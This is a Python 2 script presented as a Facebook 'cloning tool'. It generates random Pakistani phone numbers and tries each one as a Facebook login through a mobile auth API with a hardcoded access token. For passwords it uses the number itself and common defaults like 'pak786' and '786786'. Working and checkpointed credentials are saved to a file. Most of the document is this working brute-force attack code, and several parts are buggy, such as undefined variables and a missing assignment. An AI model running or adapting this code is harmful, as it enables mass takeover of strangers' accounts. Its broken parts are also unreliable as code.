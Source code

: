 # Ustad# SIDRA5# Thuglife# Somibro# Gamz#!/usr/bin/python2
#coding=utf-8
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(50000):

    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('Then type: python2 boss')

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
	print 'Thanks.'
	os.sys.exit()

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(00000.1)
def tik():
    titik = [
     '   ', '.  ', '.. ', '...', '.. ', '.  ', '   ']
    for o in titik:
        print '\r\x1b[1;91m     [⌛] \x1b[1;92mPLEASE\x1b[1;90mWAIT \x1b[1;97m' + o,
        sys.stdout.flush()
        time.sleep(0.5)
back = 0
oks = []
id = []
cpb = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"
os.system("clear")
print"""
\033[1;92m  NASIR AWAN
\033[1;93m NASIR AWAN 
\033[1;91m. NO NAME
\033[1;95m LAHORE KING
\033[1;96m HACKER
\033[3;90m CLONING TOOL 
\033[1;97m❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖
\033[1;93m➾ DEVOLPER : Nasir Awan
\033[1;92m➾ COMMAND TYPE : WITHOUT LOGIN
\033[1;96m➾ WHATAAP : +923455453538
\033[1;42m➾ NOTE : USE 4G FAST INTERNET
\033[1;95m➾ NOTE : NO NEED PROXY/VPN 
\033[1;97m❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 
"""
####Logo####
logo1 """
\033[1;92m  NASIR AWAN 
\033[1;93m  302 GROUP
\033[1;91m   HACKER 
\033[1;95m   MALIK AWAN
\033[1;96m CRACKER
\033[3;90m CLONING TOOL 
\033[1;97m❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖
\033[1;93m➾ DEVOLPER : Nasir Awan
\033[1;92m➾ COMMAND TYPE : WITHOUT LOGIN
\033[1;96m➾ WHATAAP : 03095127836
\033[1;42m➾ NOTE : USE 4G FAST INTERNET
\033[1;95m➾ NOTE : NO NEED PROXY/VPN 
\033[1;97m❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖❖                  
"""                                                                                                                                                                
##### LICENSE #####
#=================#
def lisensi():
    os.system('clear')
    login()
####login#########
def login():
    os.system('clear')
    print logo1
    print "033[1;46mCHOOSE OPTION "
    print "\033[1;97m[➊]\x1b[1;93mSTART\x1b[1;96m CRACKING "  
    time.sleep(0.05)
    print '\x1b[1;97m[0]\033[1;91m Exit ( Back)'
    pilih_login()

def pilih_login():
    Nasir = raw_input("\n\033[1;95m➢: \033[1;96m")
    if Nasir =="":
        print "\x1b[1;97mFill In Correctly"
        pilih_login()
    elif Nasir =="1":
        Zeek()
def Zeek():
    os.system('clear')
    print logo1
    print '\x1b[1;97m[➊] PAKISTAN '
    time.sleep(0.10)
    print '\x1b[1;94m[0] back'
    time.sleep(0.05)
    action()
def action():
    Nasir = raw_input('\n\033[1;93m➢\033[1;96m')
    if Nasir =='':
        print '[!] Fill In Correctly'
        action()
    elif Nasir =="1":              
        os.system("clear")
        print logo1
        print "\033[1;92mENTER ANY PAKISTAN  NUMBER"+'\n \x1b[1;95m'
        print '00 TO 49")'
        try:
            c = raw_input("\033[1;93m➢ : \033[1;96m")
            k="+923"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            Nasir()
    elif Nasir =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 47* '\033[1;94m━'
    xxx = str(len(id))
    jalan ('[✔]\033[1;96m TOTAL IDS:\x1b[1;93m '+xxx)
    jalan ("[❗]\033[1;93mTO STOP THIS PROCESS PRESS Ctrl THEN Z")
    jalan ("[‼️]\033[1;94mPLEASE WAIT........")
    print 47* '━'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m(Open \x1b[1;96mNow \x1b[1;92m )  ' + k + c + user + '\x1b[1;91m ● \x1b[1;95m' + pass1                                       
                okb = open('save/login.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;92m(Aftar \x1b[1;97m7days \x1b[1;93m) ' + k + c + user + '\x1b[1;91m ● \x1b[1;96m ' + pass1
                    cps = open('save/login.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + c + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;93m(Open \x1b[1;96mNow \x1b[1;92m)  ' + k + c + user +  '\x1b[1;91m ● \x1b[1;95m' + pass2
                        okb = open('save/login.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;92m(Aftar \x1b[1;97m7days \x1b[1;93m) ' + k + c + user + '\x1b[1;91m ● \x1b[1;96m' + pass2
                            cps = open('save/login.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="pak786"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;93m(Open \x1b[1;96mNow \x1b[1;92m)  ' + k + c + user + '\x1b[1;91m ● \x1b[1;95m'+ pass3
                                okb = open('save/login.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;92m(Aftar \x1b[1;97m7days \x1b[1;93m) ' + k + c + user + '\x1b[1;91m ● \x1b[1;96m' + pass3 
                                    cps = open('save/login.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="000786"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;93m(Open \x1b[1;96mNow \x1b[1;92m)  ' + k + c + user + '\x1b[1;91m ● \x1b[1;95m' + pass4 
                                        okb = open('save/login.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;92m(Aftar \x1b[1;97m7days \x1b[1;93m) ' + k + c + user + '\x1b[1;91m ● \x1b[1;96m' + pass4
                                            cps = open('save/login.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;93m(Open \x1b[1;96mNow \x1b[1;92m)  ' + k + c + user + '\x1b[1;91m ● \x1b[1;95m' + pass5
                                                okb = open('save/login.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;92m(Aftar \x1b[1;97m7days \x1b[1;93m) ' + k + c + user + '\x1b[1;91m ● \x1b[1;96m' + pass5 
                                                    cps = open('save/login.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                          
                                                                                                                                                                                                                    
                                                                                                                                                                                                            


                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                         
        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    print """
    
───────────────────────▄██▄▄██▄
──────────────────────██████████
──────────────────────▀████████▀
────────────────────────▀████▀
─────────────────────────████
─────────────────────────████
─────────────────────────████
─────────────────────────████
─────────────────────────████
─────────────────────────████
─────────────────────────████
─────────────    ───────────████
──────────────────────▄▄▄████
──────────────────────▀▀▀████
──────────────────────▀▀▀████
──────────────────────▀▀▀████
──────────────────────▄█████▀



"""

    
    raw_input("\n\033[1;92m[\033[1;92mBack\033[1;95m]")
    login() 
          
if __name__ == '__main__':
    login()
# Nasir-Awan
